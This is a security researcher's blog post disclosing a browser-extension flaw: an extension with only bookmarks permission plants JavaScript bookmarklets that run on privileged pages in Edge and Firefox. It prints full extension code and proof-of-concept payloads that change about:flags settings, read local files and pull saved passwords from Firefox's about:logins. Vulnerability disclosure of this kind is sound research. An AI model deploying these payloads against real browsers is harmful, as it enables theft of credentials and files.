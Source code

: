 # That evil bookmark in your browser 

Sometime back, I decided to look at bookmarks API available for browser extensions. This API sounds interesting to me because it allows you to play with user bookmarks using browser extensions.

If you want to know how extensions and permissions work please consider reading the first part of my previous blogpost https://payatu.com/blog/Nikhil-Mittal/microsoft-edge-extensions-host-permission-bypass-cve-2019-0678

to work with `bookmark API` a browser extension needs `bookmark` permission written in the manifest file

Let's create a manifest file that has only `bookmark` permission which means the extension will only be able to create, delete and update bookmark nothing else like executing javascript codes.

> manifest.json
```
{
  "name": "Evil Edge Extension",
  "author": "@C0d3G33k",
  "description": "This Extension achive evil things!",
  "version": "1.0",
  "icons": {
    "25": "images/color-changer25.png",
    "48": "images/color-changer48.png"
  },
  "permissions": [
    "bookmarks"
  ],
  "browser_action": {
    "default_icon": {
      "20": "images/color-changer20.png",
      "40": "images/color-changer40.png"
    },
    "default_title": "Evil Extension",
    "default_popup": "popup.html"
  },
  "content_scripts": [{
    "matches": [
        "<all_urls>"
    ],
    "js": ["js/content.js"],
    "run_at": "document_end"
}],
  "background": {
    "scripts": ["/js/background.js"],
    "persistent": true
  }
}
```
Further let's create a default popup file as defined in manigest file

> popup.html

```
<!DOCTYPE html>
<html>
  <head>
    <link rel="stylesheet" type="text/css" href="css/styles.css" />
  </head>
  <body>
    
    <p>Evil Extension</p>
    <input id="b1" type="button" value="Open" />
    <input id="b2" type="button" value="Execute" />
    <script src="js/popup.js"></script>
  </body>
</html>
```

Let's again define JS file and create a simple bookmark in the browser

```
let open = document.getElementById('b1');
let execute = document.getElementById('b2');


open.onclick = function() {
  browser.tabs.update    ({
      url: "https://www.google.com/"
  });
};

execute.onclick = function() {

  browser.bookmarks.create({
      title: "Google!",
      url: "https://www.google.com"
  });

};

```

![1.gif](1.gif)

Now the interesting thing here is most of the browsers are allowed to create `bookmarklets` using browser extensions

A `bookmarklet` is a bookmark stored in a web browser that contains JavaScript commands, the main purpose of `bookmarklets` is always to add extra features to the browser

for example a simple alert to get the first URL' from current page
```
execute.onclick = function() {

  browser.bookmarks.create({
      title: "Display first link!",
      url: "javascript:alert(document.getElementsByTagName('a')[0].href);"
  });

};
```
![2.gif](2.gif)

Browser vendors are sweet enough to provide so many features, but what could go wrong with this implementation? 

Do you remember of privileged pages in browsers which contain so many sensitive pieces of information and settings? which should be protected from javascript code execution

As I mentioned in my previous post if you try directly load `about:flags` in edge and try to execute bookmarklets it would not work.

![3.gif](3.gif)

But we have other ways to load `about:flags` using `res://` URI's like `res://edgehtml.dll/flags.htm`. So let's modify our code and try again

```
let open = document.getElementById('b1');
let execute = document.getElementById('b2');

// to load about:flags

open.onclick = function() {
  browser.tabs.update    ({
      url: "res://edgehtml.dll/flags.htm"
  });
};

// to create bookmark

execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!",
      url: "javascript:alert(window.location.href);"
  });

};

```
![4.gif](4.gif)

well, that works fine for us! and it creates another elevation of privilege vulnerability in the edge. and hence we can change settings in `about:flags` like 

### Enabling/Disabling Adobe flash player
```
let open = document.getElementById('b1');
let execute = document.getElementById('b2');

// to load about:flags

open.onclick = function() {
  browser.tabs.update    ({
      url: "res://edgehtml.dll/flags.htm"
  });
};

// to toggle adobe flash player flag

execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!",
      url: "javascript:document.getElementById('BchostLocalhostLoopback').click();"
  });

};

```
![5.gif](5.gif)

### Stealing any local files on the system

Since edge does not enforce SOP for file URI's so if have opened any local files, then the evil bookmark can steal any files from the system.
```
execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!!!!",
      url: "javascript:let xhr = new XMLHttpRequest();xhr.open('GET','file:///C:/Users/reach/Desktop/test.txt');xhr.send();setTimeout('alert(xhr.response)',3000)"
  });
 
};
```

Next, let's check other browsers as well
In firefox, we are allowed to execute bookmarklets in reference to the following pages 
```
about:certificate
about:compat
about:library
about:logins
about:home
about:privatebrowsing
about:protections
about:studies
about:welcome
```

### Stealing user credentials in firefox 

In firefox `about:logins` contain all the saved passwords, since we can execute javascript code reference to it, we can easily still all the saved logins, Let's modify the code and check

```
execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!",
      url: "javascript:alert(document.all[30]._passwordInput.value)"
  });

};
```

![6.gif](6.gif)

### Changing other extensions settings

In firefox we can even change settings related to other installed extensions, Can you imagine the situation when one extension in the browser can disable features of another one. 

![7.gif](7.gif)

As per my test cases, chrome is safe against this vulnerability since it does not allows any bookmarklets on privileged pages. 

Bookmarks are also gettings synced to other connected devices which belongs to the same account, which is again another possible source of the attack. 
